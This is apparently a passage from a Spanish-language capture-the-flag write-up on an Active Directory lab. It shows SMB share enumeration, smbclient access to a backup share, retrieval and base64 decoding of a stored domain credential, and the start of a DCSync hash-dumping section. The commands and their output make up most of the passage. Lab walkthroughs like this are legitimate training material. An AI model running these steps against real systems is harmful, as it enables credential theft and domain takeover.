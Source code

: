 ```bash
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
[*] Closed 1 connections                                                                                 
```

#### Acceso al share `backup` con `smbclient`:
```bash
smbclient //10.10.7.146/backup -U svc-admin
Password for [WORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

                8247551 blocks of size 4096. 3583635 blocks available
```
#### Descarga del archivo:
```bash
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```
#### Lectura del archivo descargado:

```bash
┌──(kali㉿kali)-[~/attacktive_directory]
└─$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
```
#### Decodificación de la cadena base64:
```bash
┌──(kali㉿kali)-[~/attacktive_directory]
└─$ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
backup@spookysec.local:backup2517860
```
**Resultado**: Se extrajo una credencial válida en texto plano desde el recurso `backup`:
```
backup@spookysec.local : backup2517860
```
## Parte 6: Dump de Hashes con SecretsDump (DCSync)

### Teoría

El protocolo DRSUAPI permite que controladores de dominio se repliquen entre ellos. Si un usuario tiene privilegios suficientes (como `Backup Operators`), se puede abusar este mecanismo para extraer hashes del dominio.
